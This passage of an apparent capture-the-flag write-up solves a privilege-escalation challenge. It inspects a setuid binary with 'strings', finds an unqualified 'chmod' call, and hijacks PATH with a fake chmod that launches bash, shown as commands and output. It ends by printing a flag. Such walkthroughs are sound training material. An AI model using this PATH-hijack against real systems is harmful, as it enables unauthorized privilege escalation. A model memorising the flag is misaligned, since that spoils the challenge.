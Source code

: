 The `/usr/bin/fixpermissions` binary stands out. We can use 'strings' to get a better idea of what the program does:

{% highlight bash %}
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ strings /usr/bin/fixpermissions
<7fbfb78995-g6jhp:~$ strings /usr/bin/fixpermissions
/lib64/ld-linux-x86-64.so.2
&=fnc
setuid
setregid
setreuid
setgroups
setegid
system
seteuid
__cxa_finalize
setgid
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u3UH
[]A\A]A^A_
chmod 600 /tmp/flag
;*3$"
GCC: (GNU) 10.2.0
{% endhighlight %}

The program seems to run 'chmod 600 /tmp/flag'. Since it calls 'chmod' instead of '/bin/chmod', we can create our own chmod, change the PATH variable and get a shell:

{% highlight bash %}
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ cd /tmp
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:/tmp$ mkdir .yaku
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:/tmp$ cd .yaku
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:/tmp/.yaku$ echo /bin/bash > chmod
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:/tmp/.yaku$ chmod +x chmod
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:/tmp/.yaku$ export PATH=/tmp/.yaku:$PATH
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:/tmp/.yaku$ /usr/bin/fixpermissions
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:/tmp/.yaku$ cd ~
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ ls
flag2.txt
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ cd ..
cd ..
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:/home$ ls
user1  user2  user3  user4  user5
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:/home$ cd user4
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:/home/user4$ ls
flag3.txt
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:/home/user4$ cat flag3.txt
All hail the privilege escalation master!

Here s the last flag: ctf{8d9f87dc5144aa305af81f2106eb723480bfc1a5f5ca34ef4374de2641814727}

Do you think this is enough?
{%endhighlight %}
